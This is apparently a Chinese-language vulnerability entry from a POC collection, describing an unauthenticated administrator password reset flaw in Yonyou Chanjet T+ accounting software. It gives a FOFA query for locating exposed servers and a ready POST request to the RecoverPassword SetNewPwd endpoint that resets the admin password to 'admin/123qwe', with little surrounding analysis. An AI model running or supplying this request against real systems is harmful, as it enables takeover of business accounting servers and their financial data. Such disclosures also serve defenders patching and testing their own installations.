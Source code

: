 # 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091048224.png)

验证POC, 重置账号密码为 `admin/123qwe`

```
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![image-20220909104816391](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091048450.png)